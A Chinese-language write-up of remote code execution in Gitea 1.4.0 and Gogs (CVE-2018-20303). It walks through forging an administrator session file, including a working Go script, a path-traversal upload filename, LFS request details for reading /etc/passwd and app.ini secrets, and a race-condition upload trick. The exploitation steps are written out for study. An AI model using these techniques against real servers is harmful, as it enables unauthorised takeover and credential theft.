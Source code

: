 # gitea&gogs rce总结

## 背景知识
gitea和gogs都是自己托管的Git服务程序，由golang编写。gitea本身是从gogs中fork出来的，所以无论从代码结构还是依赖库来看，两者都有很多相似之处。
在gitea-v1.4.1的release log中可以看到修复了一个lfs oid处理不当的security bug，这个bug在v1.4.1以前的版本能造成的效果是**无需任何权限的rce**。漏洞原理非常简单，参考网上的分析文章都能明白。但是这个漏洞最有趣的地方在于它实现rce的利用方式，为了更好地理解利用方式，我先介绍一些背景知识。

### 普通账号和管理员账号的区别
gitea/gogs中，uid为1的账号自动成为管理员账号。管理员账号和普通账号的区别之一体现在仓库设置，管理员多了1个Git Hooks编辑攻能。比如下面截图中，我选了编辑pre-receive钩子，钩子的内容是bash语言。我在注释下的首行添加一条命令，之后回到test仓库创建一个任意文件刚才添加的命令就执行了。
![-w1020](media/15635057439854/15635094482176.jpg)
到此得出结论：**rce = 成为管理员**

### session管理
既然 成为管理员 = rce，很自然就会去想，如何成为管理员。爆破也是一种手段，但显然无法保证成功率。gitea/gogs使用Macaron库管理路由、session等。gitea/gogs默认使用文件来管理session。
![-w709](media/15635057439854/15635112741042.jpg)
上图中，Cookie中i_like_gogs的值是服务端判断请求者身份的凭据，这个字符串我简称为fd3e实际上是个文件名，位于`/data/gogs/data/sessions/f/d`目录下。
![-w738](media/15635057439854/15635219282885.jpg)
sessions目录为了方便理解可以分为 base目录(/data/gogs/data/sessions)和生成目录(f/d/)，后者之所以叫生成目录是因为它的命名是取session文件即fd3e字符串的前两位来命名。fd3e文件的内容是由golang自带的序列化机制gob编码而成，可以用gitea/gogs中自带的解码函数解码。
![-w331](media/15635057439854/15635226064110.jpg)
解码以后内容一目了然，只有用户名和uid（uid为1自动成为管理员），之后在gogs的测试中发现，即使用户名uname错误，服务端只校验uid，这个情况对gitea的利用是有帮助的，不过这是后话。
到此得出结论： **成为管理员 = 能上传自定义文件且可以穿越路径且能部分控制文件名**
这里有一点需要补充一下，之所以要求部分控制文件名，是因为session目录的第2部分，生成目录命名只能是`[0-9a-f]`。

根据上面两部分背景知识，只要找一个满足一定条件的上传漏洞，就能实现rce。带着这个认识，下面两个漏洞就很好理解了，漏洞挖掘思路都是怎么去找**上传点**。

## gogs cve-2018-20303
cve-2018-20303相对来说更直观，前面说了为了rce需要找到可控的上传点，在这类git仓库产品中找可控的上传点，很容易想到自建仓库中的上传文件功能，所以这个漏洞是**需要普通账号权限**。利用步骤是：
1. 准备生成自定义session文件的go脚本
2. 上传自定义session，修改表单中的文件名为`../../../sessions/x/x/xxxx`  

生成session的脚本：
```
package main

import (
    "fmt"
    "encoding/gob"
    "bytes"
    "io/ioutil"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
    for _, v := range obj {
        gob.Register(v)
    }
    buf := bytes.NewBuffer(nil)
    err := gob.NewEncoder(buf).Encode(obj)
    return buf.Bytes(), err
}

func main() {
    // settings start 
    filename := "xxxx"
    uname := "admin1"
    // settings end

    // don't edit this!
    var uid int64 = 1

    obj := map[interface{}]interface{} {"_old_uid": "1", "uid": uid, "uname": uname }
    data, err := EncodeGob(obj)
    if err != nil {
        fmt.Println(err)
        return 
    }
    if err = ioutil.WriteFile(filename, data, 0600); err != nil {
        fmt.Println(err)
        return 
    }
}
```
漏洞利用提醒两点：
1. 上传的session文件最好存到已经有的目录，比如你拥有的账号，cookie中i_like_gogs = fd...3e，那显然肯定存在一个名为`f/d`的生成目录。因此把上传的文件名改为以fd开头，后面随意命名，服务器存储的时候不会更改。
2. 生成session的go脚本，根据注释修改需要设置的，不要动别的地方。

## gitea 1.4.0
gitea 1.4.0的利用条件更宽松，无需任何账号权限。它的上传点是lfs，lfs简单来说是git用来上传大文件的一种机制。网上的分析文章已经有很多，在此不赘述了。利用步骤是：
1. 生成自定义session
2. 利用越权post一个穿越路径的oid到数据库中给步骤3用
3. 利用get读取app.ini中的jwt_secret，生成jwt_token
4. 利用越权post一个穿越路径的oid到数据库中给步骤5用
5. 利用put带上jwt_token上传自定义session  

步骤1和gogs的利用类似。

步骤2越权post的payload大概类似下图：
![-w1365](media/15622258570201/15625507902094.jpg)
我这里用绝对路径读/etc/passwd，实际利用中，在步骤2应该读取app.ini。默认条件下，app.ini与lfs上传目录位于同一个根目录下，所以在实际利用中，用相对路径去读取app.ini的效果更好。截图中圈出来的部分为服务端会check的部分，包括：
```
path:
在没有账号的情况下，可以通过Explore看有没有游客也可以浏览的仓库。
任何仓库都可以，只要仓库名和对应的用户名，然后构造path：
/用户名/仓库名.git/info/lfs/objects
path后面的部分是路由写死，参考routes.go

header:
Accept必须为application/vnd.git-lfs+json
参考server.go的MetaMatcher函数

body:
Oid是穿越路径用的，当长度大于5时会自动在s[0:2]、s[2:4]后面添加路径分隔符
Size和之后的get、put操作的文件大小有关，可以预设一个大值
```

步骤3、4没什么可说。

步骤5用流式传输造成竞争来阻止服务端删除临时文件的想法很巧妙，具体在实现上就是用requests库发送的时候body值用function生成，function里两次yield，第一次yield返回真实的上传内容，yield之间根据需要插入sleep，在sleep期间就可以短暂地提权成为管理员rce了。

## 写在最后
在背景知识里我说过，这两个漏洞最有趣的地方在于利用方式，通过文件上传达到高权限（git）的rce效果，投入产出比非常高。像gitea 1.4.0无权限rce的情况，以后很难碰到，毕竟考虑到golang代码编码习惯，那个miss的return很可能是作者忘了。大概率出现的，是像cve-2018-20303通过普通权限提权然后rce的情况。
这两个漏洞的利用，在某种程度上，要归功于Macaron库。不同于传统的数据库和配置文件分离，即使拿到数据库没有配置文件中的密钥也解不开某些关键加密数据比如用户密码。而Macaron提供的身份凭证文件没有任何加密的东西，自己就可以生成。另外在最新的代码中，还是能看到大量的filepath.Join直接连接变量没有任何校验，这就为路径穿越提供了可能。